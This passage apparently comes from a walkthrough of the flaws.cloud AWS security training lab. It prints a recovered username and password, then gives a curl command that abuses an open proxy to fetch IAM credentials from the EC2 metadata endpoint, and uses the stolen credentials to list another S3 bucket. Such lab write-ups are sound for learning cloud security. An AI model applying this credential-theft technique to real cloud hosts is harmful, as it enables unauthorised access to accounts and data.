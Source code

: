 ```
Credentials
Username - flaws
Password - nCP8xigdjpjyiXgJ7nJu7rw5Ro68iE8M
```


**| 5. Leakage of Security credentials**

The web server acts as HTTP proxy [http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/neverssl.com/](http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/neverssl.com/) 

`curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws`

![](CLOUD/Screenshot%202019-10-20%20at%207.35.16%20PM.png)

Configure a profile with the credentials and token,

![](CLOUD/Screenshot%202019-10-20%20at%207.53.22%20PM.png)

List the contents of level6 bucket,

`aws s3 ls s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud --profile level5`

![](CLOUD/Screenshot%202019-10-20%20at%207.57.25%20PM.png)
